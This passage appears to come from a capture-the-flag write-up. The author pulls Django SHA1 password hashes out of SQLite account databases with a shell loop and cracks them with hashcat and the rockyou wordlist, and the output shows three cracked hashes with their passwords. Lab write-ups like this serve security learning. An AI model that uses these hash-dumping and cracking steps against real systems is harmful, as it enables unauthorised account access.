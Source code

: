 Our 7z password is right there in front of us, and we were never going to crack that with JtR. What is important is that now we can try to crack the hashes and log into the box with any cracked users.

#### Cracking Hashes

There's two different types of hashes in this database: SHA1 hashes and PBKDF2_SHA256 hashes. First, we'll try and crack the former, trying out the user:pass combinations that result. With this command, I was able to iterate through all of the databases and extract those SHA1 hashes:
```
for filename in *; do sqlite3 ${filename} -line 'select * from accounts_customuser;' | grep -E 'sha1\$*'; done | cut -c 16- > hashes
```

Now to try hashcat on them:
```
thehated@TRYHARDER:/dev/shm/DoodleGrive$ hashcat -a 0 -m 124 hashes ~/SecLists/Passwords/Leaked-Databases/rockyou.txt -O  
hashcat (v6.1.1) starting...  
  
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]  
=============================================================================================================================  
* Device #1: pthread-Intel(R) Core(TM) i7-6700 CPU @ 3.40GHz, 13768/13832 MB (4096 MB allocatable), 8MCU  
  
Minimum password length supported by kernel: 0  
Maximum password length supported by kernel: 31  
Minimim salt length supported by kernel: 0  
Maximum salt length supported by kernel: 51  
  
Hashes: 15 digests; 7 unique digests, 6 unique salts  
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates  
Rules: 1  
  
Applicable optimizers applied:  
* Optimized-Kernel  
* Zero-Byte  
* Precompute-Init  
* Early-Skip  
* Not-Iterated  
* Prepended-Salt  
* Raw-Hash  
  
Watchdog: Hardware monitoring interface not found on your system.  
Watchdog: Temperature abort trigger disabled.  
  
Host memory required for this attack: 66 MB  
  
Dictionary cache hit:  
* Filename..: /home/thehated/SecLists/Passwords/Leaked-Databases/rockyou.txt  
* Passwords.: 14344384  
* Bytes.....: 139921497  
* Keyspace..: 14344384  
  
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool  
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy  
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7  
Approaching final keyspace - workload adjusted.     
  
                                                   
Session..........: hashcat  
Status...........: Exhausted  
Hash.Name........: Django (SHA-1)  
```